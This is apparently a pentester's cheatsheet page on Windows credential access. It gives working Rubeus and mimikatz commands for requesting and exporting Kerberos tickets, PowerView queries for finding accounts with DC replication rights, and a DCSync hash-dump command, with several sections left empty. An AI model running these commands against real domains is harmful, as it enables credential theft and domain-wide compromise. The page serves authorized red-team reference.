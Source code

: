 ```yaml
---
layout: post
title: TA0006 Credentials Access - Windows
parent: Pentesting
category: Pentesting
grand_parent: Cheatsheets
modified_date: 2022-09-07
permalink: /:categories/:title/
---
```


<!-- vscode-markdown-toc -->
* [PRE-REQUISITES](#PRE-REQUISITES)
	* [WHICH OS ? WHAT CREDS ?](#WHICHOSWHATCREDS)
	* [Rubeus](#Rubeus)
	* [Other tools](#Othertools)
* [T1558: Steal and Forge Kerberos Tickets](#T1558:StealandForgeKerberosTickets)
	* [Kerberos ASKTGT](#KerberosASKTGT)
	* [Import / Export Tickets](#ImportExportTickets)
* [DCSync attack](#DCSyncattack)
* [NTDS.dit dump](#NTDS.ditdump)
* [LSASS.exe dump](#LSASS.exedump)
* [SAM dump](#SAMdump)

<!-- vscode-markdown-toc-config
	numbering=false
	autoSave=true
	/vscode-markdown-toc-config -->
<!-- /vscode-markdown-toc -->

## <a name='PRE-REQUISITES'></a>PRE-REQUISITES

### <a name='WHICHOSWHATCREDS'></a>WHICH OS ? WHAT CREDS ?

![Windows Credentials by Auth. Service & by OS](/assets/images/win-delpy-creds-table-by-os-til-2012.png)

TO READ: 
* [OS credentials dumping - mitre T1003](https://attack.mitre.org/techniques/T1003/001/)
* [LSA RunAsPPL protection](https://itm4n.github.io/lsass-runasppl/)

### <a name='Rubeus'></a>Rubeus 
```powershell
# compilation
```

### <a name='Othertools'></a>Other tools

<script src="https://code.jquery.com/jquery-1.9.1.min.js"></script>
<script>$(window).load(function() {var repos = ["https://api.github.com/repos/gentilkiwi/mimikatz/","https://api.github.com/repos/skelsec/pypykatz", "https://api.github.com/repos/SecureAuthCorp/impacket", "https://api.github.com/repos/Hackndo/lsassy", "https://api.github.com/repos/deepinstinct/Lsass-Shtinkering","https://api.github.com/repos/D1rkMtr/DumpThatLSASS","https://api.github.com/repos/codewhitesec/HandleKatz","https://api.github.com/repos/Z4kSec/Masky","https://api.github.com/repos/login-securite/DonPAPI","https://api.github.com/repos/Processus-Thief/HEKATOMB","https://api.github.com/repos/AlessandroZ/LaZagne"]; for (rep in repos) {$.ajax({type: "GET", url: repos[rep], dataType: "json", success: function(result) {$("#repo_list").append("<tr><td><a href='" + result.html_url + "' target='_blank'>" + result.name + "</a></td><td>" + result.updated_at + "</td><td>" + result.stargazers_count + "</td><td>" + result.subscribers_count + "</td><td>" + result.language + "</td></tr>"); console.log(result);}});}console.log(result);});</script>

<link href="/sortable.css" rel="stylesheet" />
<script src="/sortable.js"></script>
<div id="repos">
    <table id="repo_list" class="sortable">
      <tr><th>repo</th><th>last update</th><th>stars</th><th>watch</th><th>language</th></tr>
    </table>
</div>

## <a name='T1558:StealandForgeKerberosTickets'></a>T1558: Steal and Forge Kerberos Tickets 

[Wiki Rubeus](https://github.com/GhostPack/Rubeus)

### <a name='KerberosASKTGT'></a>Kerberos ASKTGT 
```powershell
# Path on VM Mandiant Commando
cd C:\Tools\GhostPack\Rubeus\Rubeus\bin\Debug
./Rubeus.exe asktgt /user:$zlat_user /password:"PASSWORD" /domain:$zdom /dc:$zdom_dc_fqdn /ptt
```

### <a name='ImportExportTickets'></a>Import / Export Tickets
```powershell
cd C:\tools\mimikatz\x64
mimikatz.exe privilege:debug
kerberos::list /export
```

## <a name='DCSyncattack'></a>DCSync attack

- [T1003.006](https://attack.mitre.org/techniques/T1003/006) DCSYNC

```powershell
# get the account's SID 
get-netuser $zlat_user -Domain $zdom_fqdn -DomainController $zdom_dc_fqdn | select objectsid

# retrieve *most* users who can perform DC replication for dev.<Domain>.local (i.e. DCsync)
Get-DomainObjectAcl $zdom_dn -ResolveGUIDs  -Domain $zdom_fqdn -DomainController $zdom_dc_fqdn | ? {
    ($_.ObjectType -match 'replication-get') -or ($_.ActiveDirectoryRights -match 'GenericAll')
}

# check the ACL permissions
Get-ObjectAcl -Identity $zdom_dn -DomainController $zdom_dc_fqdn -Domain $zdom_fqdn -ResolveGUIDs | ? {$_.ObjectSID -match "S-1-5-21-xxx"}

# run the DCsync
mimikatz.exe privilege:debug
lsadump::dcsync /dc:$zdom_dc /domain:$zdom_fqdn /user:$zlat_user
```

## <a name='NTDS.ditdump'></a>NTDS.dit dump


## <a name='LSASS.exedump'></a>LSASS.exe dump

- [lsassy](https://github.com/Hackndo/lsassy)
- [lsass-shtinkering](https://github.com/deepinstinct/Lsass-Shtinkering)

## <a name='SAMdump'></a>SAM dump
